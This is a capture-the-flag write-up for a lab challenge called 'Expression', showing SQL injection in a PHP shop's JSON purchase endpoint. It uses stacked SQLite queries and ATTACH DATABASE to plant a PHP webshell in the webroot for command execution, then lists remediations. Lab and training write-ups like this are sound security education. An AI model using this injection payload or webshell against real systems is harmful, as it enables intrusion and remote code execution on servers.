








# Expression - SQLite Injection to RCE

Challenge link: https://dashboard.webverselabs-pro.com/events/expression

## Overview
Expression was built by two tutors who were better at teaching maths than at building websites. The catalogue is tidy and the courses are genuinely good, but the shop around them was wired together between lessons, the kind of storefront that hackers love to break.


## Enumeration
After creating an account, the platform allows users to enroll in courses which adds them to the user's account.



If we capture a request to the **Enroll now** button using Burp, it reveals a POST request being sent to a JSON API endpoint:

```
POST /api/v1/buy HTTP/2
Host: f286077b-4201-expression-cf7bd.events.webverselabs-pro.com
Cookie: PHPSESSID=1867f1504b0d014f6ff4ac0ccc086a9e; cf_clearance=JUdFh.zD.lR8gVSiuyClBls3j0sLE.NqBYsvVwQ_yaY-1782037051-1.2.1.1-o98qX_TEGInzkcyw4mJoEOX6Qdqhm6q4s0DpCsYulFdupFNx.hw4h_6Yw2yVoQ6uXeVbQU8Sjl0O_ATrW8MqjOq2yRjyTxphKra0LeoCLFwonD2hK2jXVcW7daKgbgEXadRo6eH4sNCcSy0ASiUV6TQ5TL.qXw73rVCTZzfaNg3MyP5XMJjOAyluh8BMjlwb_lS_BFjA5OspVSbAnQaQYZ8USTWS3Llz5OftsdM2QRUZRGbWRLDPD6hKbdiDo2HG5WpxuTAA3Hb1QNkwX7h6VeuhY9aWNbW0MNpIwvYrwAnnp8jglPtuAP1DqybQ_J34G5qS6_HR.SRSwmf3KTfS7A
Content-Length: 36
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not-A.Brand";v="24", "Chromium";v="146"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36
Accept: */*
Origin: https://f286077b-4201-expression-cf7bd.events.webverselabs-pro.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://f286077b-4201-expression-cf7bd.events.webverselabs-pro.com/course.php?id=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"product":"Algebra I: Foundations"}
```

With this response:

```
HTTP/2 200 OK
Date: Sun, 21 Jun 2026 10:21:30 GMT
Content-Type: application/json; charset=utf-8
Server: cloudflare
Nel: {"report_to":"cf-nel","success_fraction":0.0,"max_age":604800}
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: camera=(), microphone=(), geolocation=()
Cf-Cache-Status: DYNAMIC
Report-To: {"group":"cf-nel","max_age":604800,"endpoints":[{"url":"https://a.nel.cloudflare.com/report/v4?s=TZVffCp0ZRg9QB%2BKKItF9ik9Zmj5BuDtX6CqvU6aZ6PuwDONBGLGC3q%2BgT3Q78L5RbrPM3FzfHb4NXkB9rgTj%2F%2FnsW970z4FYU%2FtqMn9XwlnGFozszG4Ezawv4KadtcVZzrUzhw7xs8f6inpyFh%2BRro1VGhLqFmXh5WKNaaiih0%2BnqElLu4qY4VWTrQ8"}]}
Cf-Ray: a0f24969ab9f21ca-CMH
Alt-Svc: h3=":443"; ma=86400

{"ok":true,"message":"Enrolment recorded \u2014 find it under My courses."}
```



Attempting to access `/api` or `/api/v1` directly returns `403 Forbidden`, confirming the API router exists but direct access is blocked

Since the product name is being used and no actual values are being returned to the user, this strongly suggests that the `product` value is being passed into a SQL `INSERT` statement 

We can attempt to break the query and return an error statement which can give us more info by just sending a single quote into the product field:

```
{"product":"'"}
```

Which returns this error in the response body:

```
<br />
<b>Warning</b>:  PDO::exec(): SQLSTATE[HY000]: General error: 1 unrecognized token: &quot;''')&quot; in <b>/var/www/html/api/v1/buy.php</b> on line <b>32</b><br />
{"ok":true,"message":"Enrolment recorded \u2014 find it under My courses."}
```

The keywords in this error are `SQLSTATE[HY000]: General error` which let us know that the underlying database is using SQLite



This confirms a few things:
* The product value is passed unsanitized into a raw SQL query via `PDO::exec()`
* The backend is SQLite - `SQLSTATE[HY000] General error` with an unrecognized token is characteristic SQLite error output
* The webroot is leaked: `/var/www/html`

Another important part of the error is the broken token `''')` which tells us the original query structure. The injected `'` closed the string, leaving `)` as unparseable, meaning the query looks something like this in a typical request:

```
INSERT INTO enrollments (user_id, product) VALUES (1, 'Algebra I: Foundations')
```


## Exploitation

Since `PDO::exec()` supports multiple statements separated by `;`, we can check if it allows statement stacking with a simple `SELECT` statement:

```
'); SELECT 1; -- -
```

So the full query would look like:

```
INSERT INTO enrollments (user_id, product) VALUES (3, ''); SELECT 1; -- -')
```



The response resulted in no errors which means that stacked queries execute successfully.

We can use this to our advantage with the `ATTACH DATABASE` command which creates a new database file at an arbitrary path on disk. By attaching a file with a `.php` extension in the webroot, creating a table inside it, and inserting a PHP payload as a row value, we can write a webshell to the server allowing us to obtain RCE and grab the flag

The payload will be as follows:

```
'); ATTACH DATABASE '/var/www/html/webshell.php' AS cmd; CREATE TABLE cmd.x (c TEXT); INSERT INTO cmd.x VALUES ('<?php passthru($_GET[\"cmd\"]); ?>'); -- -
```

So the full SQL query would look something like this:

```
INSERT INTO enrollments (user_id, product) VALUES (3, '');
ATTACH DATABASE '/var/www/html/webshell.php' AS cmd;
CREATE TABLE cmd.x (c TEXT);
INSERT INTO cmd.x VALUES ('<?php passthru($_GET["cmd"]); ?>');
-- -')
```




## Result

Now that we have our webshell uploaded in the webroot, RCE is as easy as this:

```
GET /webshell.php?cmd=id
```



Since it is SQLite, the file still contains SQLite binary header bytes followed by our inserted PHP payload. PHP ignores the binary preamble and executes the `<?php ... ?>` block, still returning our command output.



Now let's grab the flag:




## Vulnerability Breakdown

This works because PHP's `PDO::exec()` accepts a string of multiple semicolon-separated SQL statements, unlike prepared statements which only permit one. Combined with SQLite's `ATTACH DATABASE` feature (which maps an arbitrary filesystem path as a new database) an attacker can write arbitrary content to disk. The PHP payload lands inside the `.php` file as a SQLite table row value and is executed by the web server on the next request. PHP ignores the SQLite binary header bytes that precede it.

The best ways to remediate and prevent this vulnerability in the future is:
* Use **prepared statements** with **parameterized queries**: `PDO::prepare()` + `bindParam()` eliminates injection entirely
* Validate `product` values against a known course catalogue whitelist before any database interaction
* Run the web process under an account without write access to the webroot just incase
* Set `display_errors = Off` in production to suppress verbose error output that leaks file paths and database type


